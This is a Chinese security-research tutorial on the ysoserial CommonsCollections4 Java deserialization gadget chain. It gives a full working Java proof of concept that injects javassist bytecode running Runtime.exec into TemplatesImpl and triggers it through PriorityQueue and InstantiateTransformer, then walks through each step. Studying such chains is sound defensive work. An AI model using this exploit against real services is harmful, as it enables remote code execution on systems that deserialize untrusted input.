

## 简介
CC4 相当于 CC2 + CC3 的结合，在ysoseria中CC4提及的是，`Variation on CommonsCollections2 that uses InstantiateTransformer instead of InvokerTransformer.`
也就是说CC4 只需要在CC2的基础上（javassist）将`InvokerTransformer`修改成`InstantiateTransformer`,`InstantiateTransforme` 在CC3中可以知道，实现了Transformer，Serializable接口，在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回，要达到使用`InstantiateTransforme` 的transform方法，这时又离不开`TrAXFilter`的构造函数，在其实例化之后就能调用`TransformerImpl`的`newTransformer`方法，最后实现调用恶意代码
### 前置知识
[Commons Collections2 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)
[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
### 环境

- jdk1.8
- commons collections4
### 利用链
```
ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						ChainedTransformer.transform()
                ConstantTransformer.transform()
                InstantiateTransformer.transform()
                newInstance()
                      TrAXFilter#TrAXFilter()
                      TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                            TemplatesImpl.defineTransletClasses
                                newInstance()
                                      Runtime.exec()
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC4 {
    public static void main(String[] args) throws Exception{
        PriorityQueue queue = new PriorityQueue(1);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] taegetClassBytes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,taegetClassBytes);
        Field field1 = templates.getClass().getDeclaredField("_name");
        field1.setAccessible(true);
        field1.set(templates,"123");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        queue.add(1);
        queue.add(1);
        TransformingComparator Tcomparator = new TransformingComparator(chain);
        Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            FileOutputStream fileOutputStrem = new FileOutputStream("cc4.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStrem);
            outputStream.writeObject(queue);

            FileInputStream fileInputStream = new FileInputStream("cc4.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();

        }catch(Exception e){
            e.printStackTrace();
        }

    }
}

```


## 分析
### 0x1
```java
PriorityQueue queue = new PriorityQueue(1);
```
[CC2](https://www.yuque.com/da-labs/secnotes/fbvuia)中我们可以知道，为什么明明PriorityQueue的构造函数中可以传入`TransformingComparator`的实例，但是我们却不使用可以传入`TransformingComparator`实例的构造方法，因为在传入之后，会直接调用`TransformingComparator`实例的方法，导致在还没有序列化的时候程序就已经crash了，这一步是实现CC2，CC4的关键
### 0x2
通过javasisst创建恶意代码，并将恶意代码写入到TemplatesImpl实例化后的`_bytecodes`,`_name`参数中，详情看[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] taegetClassBytes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
Field field = templates.getClass().getDeclaredField("_bytecodes");
field.setAccessible(true);
field.set(templates,taegetClassBytes);
Field field1 = templates.getClass().getDeclaredField("_name");
field1.setAccessible(true);
field1.set(templates,"123");
```
### 0x3
ChainedTransformer类会把我们的Transformer变成一个串，用于执行transform方法链式调用transformers[]
给队列赋值
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chain = new ChainedTransformer(transformers);
queue.add(1);
queue.add(1);
```
### 0x4
当赋值操作完成之后，再对comparator进行赋值操作，这样就能在赋值操作前不直接crash掉，并且在反序列化的时候comparator不为空，又能直接调用transform方法
```java
TransformingComparator Tcomparator = new TransformingComparator(chain);
Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
## 调试
在调试过程中，前部分同CC2，一直到`comparator.compare()`,comparator为反射传入的Tcomparator，当调用compare方法时，就会执行`this.transformer.transform(obj1)`,最后就回直接到TraXFilter的构造函数里，执行newTransformer


最后在getTransletInstance函数里，将传入的字节码实例化


